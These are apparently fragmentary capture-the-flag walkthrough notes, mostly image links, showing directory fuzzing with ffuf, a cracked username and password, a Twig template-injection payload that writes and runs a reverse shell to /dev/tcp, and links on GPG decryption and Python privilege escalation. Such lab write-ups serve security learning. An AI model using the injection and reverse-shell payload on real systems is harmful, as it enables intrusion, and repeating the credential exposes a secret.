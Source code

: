 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c079d78e-b88f-4b01-a521-ad09aecc85c3)

ffuf -u http://62.173.140.174:28280/FUZZ.zip -w ~/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-big.txt

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f5aac93b-2e9e-4578-beab-2ac40f327e1a)

john

gravman:2yyaeg2AiWy2v6E

https://github.com/advisories/GHSA-f9jf-4cp4-4fq5

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/48953f60-45db-40b4-8cd2-37ad2c95b2ea)

{{['echo "sh -i >& /dev/tcp/IP/1234 0>&1" > sc.sh']|filter('system')}}
{{['bash sc.sh']|filter('system')}}

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bbfefa19-696d-448d-a6bd-246dc81125ba)

https://hackware.ru/?p=13801#410

GPG

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1aea425a-35d0-48f9-b350-86b23d0d7b66)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/97a39e8a-3a19-4f40-83df-e96b5990b497)

https://superuser.com/questions/920793/how-to-specify-private-key-when-decrypting-a-file-using-gnupg

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/49f94d47-ff23-42bc-8fe2-516a20ed51a9)

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d100c7ce-18f4-4b06-b93b-8ec3f5fb5e6b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/de0edd24-ba7d-4278-8567-4b6b870f9fd1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/76fba23b-0037-470d-9492-a1ee729cbda3)





